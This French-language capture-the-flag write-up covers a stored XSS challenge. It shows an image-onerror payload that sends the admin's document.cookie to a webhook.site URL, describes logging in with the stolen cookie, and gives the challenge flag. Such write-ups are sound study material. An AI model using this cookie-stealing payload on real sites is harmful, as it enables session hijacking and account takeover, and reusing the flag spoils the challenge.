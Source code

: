 ```yaml
---
title: 'XSS - Stockée 1'
description: "Exploitation d'une vulnérabilité XSS stockée pour voler des cookies"
pubDate: 'Jul 1 2025'
heroImage: 'https://static.actu.fr/uploads/2024/03/france-travail-cyberattaque-piratage-hackeurs.jpeg'
---
```


## 9. XSS - Stockée 1

**Objectif :** Voler le cookie de session de l'administrateur et l'utiliser pour valider l'épreuve  
**Méthode :** Injection XSS stockée avec exfiltration de cookies  
**Outils utilisés :** Webhook.site / Injection de code / JS  
**Temps :** 25 minutes  
**Flag :** `NkI9qe4cdLIO2P7MIsWS8ofD6`

### Solution

Exploitation d'une vulnérabilité XSS stockée pour voler les cookies d'un administrateur.

![Challenge XSS Stockée](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2009.59.44.png)

**Étapes :**
1. Tester l'injection de code avec `alert('hey')` dans le champ description
2. Confirmer que l'injection fonctionne
3. Créer un webhook sur webhook.site pour capturer les données
4. Injecter le payload XSS :
   ```html
   <img src="x" onerror="new Image().src='https://webhook.site/602ea2d1-dbf7-4c77-a784-8c8381fb7ae6?cookie='+document.cookie">
   ```
5. Attendre que l'administrateur visite la page
6. Récupérer le cookie sur le webhook
7. Utiliser le cookie pour s'authentifier comme administrateur

![Test d'injection XSS](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2009.59.51.png)

![Configuration du webhook](/src/assets/root_me/Capture%20d'écran%202025-07-01%20à%2010.00.06.png)
